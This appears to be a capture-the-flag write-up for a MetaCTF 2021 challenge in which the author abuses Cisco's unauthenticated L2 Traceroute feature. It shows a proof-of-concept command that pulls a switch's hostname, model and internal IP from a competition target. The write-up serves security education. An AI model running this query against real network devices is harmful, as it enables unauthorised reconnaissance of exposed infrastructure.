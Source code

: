 ```yaml
---
layout: post
title:  "MetaCTF 2021"
date:   2022-03-15 18:00:00 +0100
categories: CTF MetaCTF2021
---
```


## They call me TracerT

TLDR: You can abuse the Cisco proprietary L2-Traceroute feature.

### Challenge Description

**Points:** 550

**Solves:** 5

**Fastest Solve:** Team Thirst (us)

>One of the things I find fascinating is the sheer amount of information that $random_devices expose to the network, all without authentication. For example, take Windows RPC. Did you know that you can even sometimes determine if an AV is running on a remote host, all based on unauthenticated querying against RPC?
>
>On a related note, we, ummmm, accidentally exposed a Cisco Catalyst switch to the internet in its default configuration (minus disabling ports that are unrelated to solving this problem). It's located at tracert.cg21.mctf.io. The flag is the hostname of the switch. Good luck :)

### Solution

Since we know it's a Cisco Catalyst Switch, we can search through Ciscos Security Advisories. 
Searching for the term "Traceroute"  yields an [informational report](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190925-l2-traceroute) about the proprietary L2 Traceroute feature.
This lets Cisco Switches find other Cisco Switches in the same (OSI) Layer 2 domain (same subnet, usually constrained in a VLAN).

L2 Traceroute builds a local database with all sorts of fun information about other such capable switches in the network. Awesome for maintanance and troubleshooting, but should ***never*** be accessible from outside!

The report mentions the researcher Chris Marget, who has a [Github Repo](https://github.com/chrismarget/cisco-l2t) with a proof of concept.

Before you run his code, you need the IP of the switch:

{% highlight bash %}
soeren@arch:~ $ dig tracert.cg21.mctf.io +short
34.207.70.151
{% endhighlight %}

Afterwards you can run his code like so:

{% highlight bash %}
soeren@arch:~/repos/cisco-l2t $ go run cmd/l2t_ss/main.go -t 1 \
-a 1:ffff.ffff.ffff -a 2:ffff.ffff.ffff \
-a 3:100 -a 14:0.0.0.0 34.207.70.151

Received: L2T_REPLY_DST (3) with 4 attributes (51 bytes)
   4 L2_ATTR_DEV_NAME     thats-tracer-t-to-u
   5 L2_ATTR_DEV_TYPE     WS-C2950T-24
   6 L2_ATTR_DEV_IP       192.168.28.125
  15 L2_ATTR_REPLY_STATUS Status unknown (3)
{% endhighlight %}

And there you have it, the flag is **thats-tracer-t-to-u** for 550 Points.